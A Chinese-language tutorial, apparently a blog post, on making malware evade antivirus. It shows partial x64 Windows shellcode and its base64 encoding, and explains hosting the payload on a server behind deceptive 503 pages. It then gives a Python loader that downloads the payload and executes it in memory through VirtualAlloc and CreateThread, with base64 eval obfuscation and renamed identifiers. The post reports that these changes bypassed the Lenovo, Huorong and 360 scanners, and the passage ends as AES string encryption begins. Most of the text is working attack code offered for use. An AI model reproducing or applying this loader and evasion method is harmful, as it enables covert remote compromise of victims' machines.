# 一次免杀手法分享

> 本文技术仅用于学习,任何非法操作与作者本人``无关``

### 生成攻击载荷



- 如下图所示(防止有人恶意骚扰,我还是部分打码吧)



*****

### 远程加载

- 在云服务器上起一个`web端口`,创建一个文本,将上面`引号`里的内容存储到文本中

```cmd
\xfc\x48\x83\xe4\xf0\xe8\xc8\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x75\x72\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x4f\xff\xff\xff\x5d\x6a\x00\x49
--------------------------------部分省略---------------------------------f0\xeb\xba\x4f\x8a\xe3\xdb\xad\xa6\x82\xc8\x99\xdb\x56\x0f\x27\x92\x0b\xb7\xd5\x29\x2c\xc0\x69\xb6\x01\x3d\x91\x20\xdd\xdb\x0d\x87\xa0\x51\xac\x03\x2c\x36\x03\x46\x52\x78\x18\xe4\xf4\xd4\xfc\xc4\xb5\x5e\x6c\xa4\x9e\xad\xc4\xb7\xfe\xa4\x52\xa8\x39\xa3\xda\xda\xbe\xb1\x3b\x15\x0e\xd6\x19\x38\xbe\xc5\x7d\xc5\xad\x00\x41\xbe\xf0\xb5\xa2\x56\xff\xd5\x48\x31\xc9\xba\x00\x00\x40\x00\x41\xb8\x00\x10\x00\x00\x41\xb9\x40\x00\x00\x00\x41\xba\x58\xa4\x53\xe5\xff\xd5\x48\x93\x53\x53\x48\x89\xe7\x48\x89\xf1\x48\x89\xda\x41\xb8\x00\x20\x00\x00\x49\x89\xf9\x41\xba\x12\x96\x89\xe2\xff\xd5\x48\x83\xc4\x20\x85\xc0\x74\xb6\x66\x8b\x07\x48\x01\xc3\x85\xc0\x75\xd7\x58\x58\x58\x48\x05\x00\x00\x00\x00\x50\xc3\xe8\x9f\xfd\xff\xff\x38\x2e\x31\x33\x37\x2e\x36\x30\x2e\x31\x35\x34\x00\x3a\xde\x68\xb1
```

- 对内容进行`base64`编码一下

```http
XHhmY1x4NDhceDgzXHhlNFx4ZjBceGU4XHhjOFx4MDBceDAwXHgwMFx4NDFceDUxXHg0MVx4NTBceDUyXHg1MVx4NTZceDQ4XHgzMVx4ZDJceDY1XHg0OFx4OGJceDUyXHg2MFx4NDhceDhiXHg1Mlx4MThceDQ4XHg4Ylx4NTJceDIwXHg0OFx4OGJceDcyXHg1MFx4NDhceDBmXHhiN1x4NGFceDRhXHg0ZFx4MzFceGM5XHg0OFx4MzFceGMwXHhhY1x4M2NceDYxXHg3Y1x4MDJceDJjXHgyMFx4NDFceGMxXHhjOVx4MGRceDQxXHgwMVx4YzFceGUyXHhlZFx4NTJceDQxXHg1MVx4NDhceDhiXHg1Mlx4MjBceDhiXHg0Mlx4M2NceDQ4XHgwMVx4ZDBceDY2XHg4MVx4NzhceDE4XHgwYlx4MDJceDc1XHg3Mlx4OGJceDgwXHg4OFx4MDBceDAwXHgwMFx4NDhceDg1XHhjMFx4NzRceDY3XHg0OFx4MDFceGQwXHg1MFx4OGJceDQ4XHgxOFx4NDRceDhiXHg0MFx4MjBceDQ5XHgwMVx4ZDBceGUzXHg1Nlx4NDhceGZmXHhjOVx4NDFceDhiXHgzNFx4ODhceDQ4XHgwMVx4ZDZceDRkXHgzMVx4YzlceDQ4XHgzMVx4YzBceGFjXHg0MVx4YzFceGM5XHgwZFx4NDFceDAxXHhjMVx4MzhceGUwXHg3NVx4ZjFceDRjXHgwM1x4NGNceDI0XHgwOFx4NDVceDM5XHhkMVx4NzVceGQ4XHg1OFx4NDRceDhiXHg0MFx4MjRceDQ5XHgwMVx4ZDBceDY2XHg0MVx4OGJceDBjXHg0OFx4NDRceDhiXHg0MFx4MWNceDQ5XHgwMVx4ZDBceDQxXHg4Ylx4MDRceDg4XHg0OFx4MDFceGQwXHg0MVx4NThceDQxXHg1OFx4NWVceDU5XHg1YVx4NDFceDU4XHg0MVx4NTlceDQxXHg1YVx4NDhceDgzXHhlY1x4MjBceDQxXHg1Mlx4ZmZceGUwXHg1OFx4NDFceDU5XHg1YVx4NDhceDhiXHgxMlx4ZTlceDRmXHhmZlx4ZmZceGZmXHg1ZFx4NmFceDAwXHg0OQotLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0t6YOo5YiG55yB55WlLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLWYwXHhlYlx4YmFceDRmXHg4YVx4ZTNceGRiXHhhZFx4YTZceDgyXHhjOFx4OTlceGRiXHg1Nlx4MGZceDI3XHg5Mlx4MGJceGI3XHhkNVx4MjlceDJjXHhjMFx4NjlceGI2XHgwMVx4M2RceDkxXHgyMFx4ZGRceGRiXHgwZFx4ODdceGEwXHg1MVx4YWNceDAzXHgyY1x4MzZceDAzXHg0Nlx4NTJceDc4XHgxOFx4ZTRceGY0XHhkNFx4ZmNceGM0XHhiNVx4NWVceDZjXHhhNFx4OWVceGFkXHhjNFx4YjdceGZlXHhhNFx4NTJceGE4XHgzOVx4YTNceGRhXHhkYVx4YmVceGIxXHgzYlx4MTVceDBlXHhkNlx4MTlceDM4XHhiZVx4YzVceDdkXHhjNVx4YWRceDAwXHg0MVx4YmVceGYwXHhiNVx4YTJceDU2XHhmZlx4ZDVceDQ4XHgzMVx4YzlceGJhXHgwMFx4MDBceDQwXHgwMFx4NDFceGI4XHgwMFx4MTBceDAwXHgwMFx4NDFceGI5XHg0MFx4MDBceDAwXHgwMFx4NDFceGJhXHg1OFx4YTRceDUzXHhlNVx4ZmZceGQ1XHg0OFx4OTNceDUzXHg1M1x4NDhceDg5XHhlN1x4NDhceDg5XHhmMVx4NDhceDg5XHhkYVx4NDFceGI4XHgwMFx4MjBceDAwXHgwMFx4NDlceDg5XHhmOVx4NDFceGJhXHgxMlx4OTZceDg5XHhlMlx4ZmZceGQ1XHg0OFx4ODNceGM0XHgyMFx4ODVceGMwXHg3NFx4YjZceDY2XHg4Ylx4MDdceDQ4XHgwMVx4YzNceDg1XHhjMFx4NzVceGQ3XHg1OFx4NThceDU4XHg0OFx4MDVceDAwXHgwMFx4MDBceDAwXHg1MFx4YzNceGU4XHg5Zlx4ZmRceGZmXHhmZlx4MzhceDJlXHgzMVx4MzNceDM3XHgyZVx4MzZceDMwXHgyZVx4MzFceDM1XHgzNFx4MDBceDNhXHhkZVx4NjhceGIx
```

- 保存到`文本`中,可以用`python -m http.server`起一个端口,也可以开启一个web服务(这里我用`宝塔`部署一个web)



- 进入到根目录,创建一个`文件夹`(名字可以复杂些,防止目录被遍历),这个`404`和`index`界面可以改为->503这些具有迷惑性的界面



- 将上面`base64`编码后的内容放入到`txt`





- 最终效果



*****

### 使用shellcode加载

- 使用shellcode加载器加载

```py
# -*- encoding: utf-8 -*-
# TODO:@ModuleName: no_killing
# TODO:@Author: tomato
# TODO:@Version: Python3.12.0
# TODO:@Time: 2025/5/13 14:37

import requests
import base64
import codecs
import ctypes

url = "http://192.168.0.1/paylaod/1.txt"
vps_txt = requests.get(url).text

# TODO: base64解码
vps_txt = base64.b64decode(vps_txt)

# TODO: 处理解码后的内容,转化为可执行的二进制stream
shellcode = (codecs.escape_decode(vps_txt)[0])

# TODO: 转化为字节(这里有警告不用管)
shellcode = bytearray(shellcode)
# print(shellcode)

# TODO: 设置VirtualAlloc返回类型为64为无符号整数
ctypes.windll.kernel32.VirtualAlloc.restype = ctypes.c_uint64
cwk = ctypes.windll.kernel32
# TODO: 申请内存,保存内存分配首地址
alloc = cwk.VirtualAlloc(ctypes.c_int(0), ctypes.c_int(len(shellcode)), ctypes.c_int(0x3000), ctypes.c_int(0x40))

# TODO: 传入shellcode
buffer = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)
# cwk.RtlMoveMemory(ctypes.c_uint64(alloc), buffer, ctypes.c_int(len(shellcode)))
eval(base64.b64decode("Y3drLlJ0bE1vdmVNZW1vcnkoY3R5cGVzLmNfdWludDY0KGFsbG9jKSwgYnVmZmVyLCBjdHlwZXMuY19pbnQobGVuKHNoZWxsY29kZSkpKQ=="))

# TODO: 从首地址执行shellcode
handle = cwk.CreateThread(ctypes.c_int(0), ctypes.c_int(0), ctypes.c_uint64(alloc), ctypes.c_int(0), ctypes.c_int(0),
                          ctypes.pointer(ctypes.c_int(0)))

# TODO: 等待线程
# cwk.WaitForSingleObject(ctypes.c_int(handle),ctypes.c_int(-1))
eval(base64.b64decode(
    "Y3drLldhaXRGb3JTaW5nbGVPYmplY3QoY3R5cGVzLmNfaW50KGhhbmRsZSksY3R5cGVzLmNfaW50KC0xKSk="))
```

- 看看能否成功上线



- 丢到杀软看看,联想电脑管家报毒了(只要有一个杀软报毒就不行)



*****

### 尝试修改特征绕过

- 几番折腾想起个问题,静态特征没改(`shellcode`,注释等等特征)
- 于是修改全局代码,`import ctypes as pandas`,`shellcode`替换为`tomato`,删除注释掉的代码

```py
# -*- encoding: utf-8 -*-
# TODO:@ModuleName: no_killing
# TODO:@Author: tomato
# TODO:@Version: Python3.12.0
# TODO:@Time: 2025/5/13 16:03

import requests
import base64
import codecs
import ctypes as pandas # TODO:我的代码弹道偏左

url = "http://192.168.0.1/paylaod/1.txt"
vps_txt = requests.get(url).text

# TODO: base64解码
vps_txt = base64.b64decode(vps_txt)

# TODO: 处理解码后的内容,转化为可执行的二进制stream
tomato = (codecs.escape_decode(vps_txt)[0])

# TODO: 转化为字节(这里有警告不用管)
tomato = bytearray(tomato)
# print(tomato)

# TODO: 设置VirtualAlloc返回类型为64为无符号整数
pandas.windll.kernel32.VirtualAlloc.restype = pandas.c_uint64
cwk = pandas.windll.kernel32
# TODO: 申请内存,保存内存分配首地址
alloc = cwk.VirtualAlloc(pandas.c_int(0), pandas.c_int(len(tomato)), pandas.c_int(0x3000), pandas.c_int(0x40))

# TODO: 传入tomato
buffer = (pandas.c_char * len(tomato)).from_buffer(tomato)
eval(base64.b64decode("Y3drLlJ0bE1vdmVNZW1vcnkoY3R5cGVzLmNfdWludDY0KGFsbG9jKSwgYnVmZmVyLCBjdHlwZXMuY19pbnQobGVuKHNoZWxsY29kZSkpKQ=="))

# TODO: 从首地址执行tomato
handle = cwk.CreateThread(pandas.c_int(0), pandas.c_int(0), pandas.c_uint64(alloc), pandas.c_int(0), pandas.c_int(0),
                          pandas.pointer(pandas.c_int(0)))

# TODO: 等待线程
eval(base64.b64decode(
    "Y3drLldhaXRGb3JTaW5nbGVPYmplY3QoY3R5cGVzLmNfaW50KGhhbmRsZSksY3R5cGVzLmNfaW50KC0xKSk="))
```

- 再次丢`联想电脑管家`试试



- 成功绕过`联想电脑管家`,试试`火绒`



- 发现`火绒`也过了,试试`360`



*****

### 编译成可执行文件

- 我们需要把程序打包成可执行文件,仍需要对代码做一些处理以绕过杀软检测(这里只展示`部分代码及思路`)
- 1.使用`两层AES`加密,需要自己定义`key`和`iv`,对部分敏感字符串进行加密和解密

```py
# TODO:填充数据
def pad(text):
    pad_len = 16 - len(text) % 16
    return text + chr(pad_len) * pad_len

# TODO:去除填充
def unpad(data):
    if isinstance(data, bytes):
